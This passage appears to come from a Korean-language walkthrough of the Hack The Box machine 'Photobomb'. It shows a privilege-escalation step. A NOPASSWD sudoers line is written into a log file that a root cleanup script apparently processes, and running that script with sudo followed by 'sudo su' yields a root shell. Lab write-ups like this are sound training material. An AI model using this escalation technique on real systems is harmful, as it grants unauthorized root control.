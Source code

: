 ~~~shell
wizard@photobomb:~/photobomb$ echo "wizard ALL=(ALL) NOPASSWD: ALL" > ~/photobomb/log/photobomb.log
~~~

- 마지막으로/opt/cleanup.sh를 실행하면

~~~shell
wizard@photobomb:~/photobomb$ sudo /opt/cleanup.sh
~~~

- 다음과 같이 root 권한으로 상승할 수 있다.

~~~shell
wizard@photobomb:~/photobomb$ sudo su
root@photobomb:/home/wizard/photobomb#
~~~
